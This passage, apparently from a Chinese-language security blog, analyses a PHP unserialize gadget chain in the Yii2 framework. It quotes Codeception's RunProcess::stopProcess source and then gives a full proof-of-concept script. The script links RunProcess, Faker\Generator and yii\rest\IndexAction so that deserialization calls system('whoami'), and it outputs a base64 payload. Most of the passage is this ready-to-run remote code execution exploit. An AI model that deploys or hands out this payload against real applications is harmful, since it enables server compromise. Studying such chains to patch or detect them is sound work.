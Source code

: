 ```
/vendor/codeception/codeception/ext/RunProcess.php
```

```php
public function __destruct()
{
    $this->stopProcess();
}

public function stopProcess()
{
    foreach (array_reverse($this->processes) as $process) {
        /** @var $process Process  **/
        if (!$process->isRunning()) {
            continue;
        }
        $this->output->debug('[RunProcess] Stopping ' . $process->getCommandLine());
        $process->stop();
    }
    $this->processes = [];
}
```
可以发现，这里调用了`$process->isRunning()`，而且这里的process是可控的！那么我们接上上面的链子就可以继续打

```php
<?php
namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'whoami';
        }
    }
}

namespace Faker{
    use yii\rest\IndexAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters["isRunning"] = [new IndexAction, 'run'];
        }
    }
}

namespace Codeception\Extension{
    use Faker\Generator;

    class RunProcess{
        private $processes;

        public function __construct(){
            $this->processes[] = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new Codeception\Extension\RunProcess));
}
```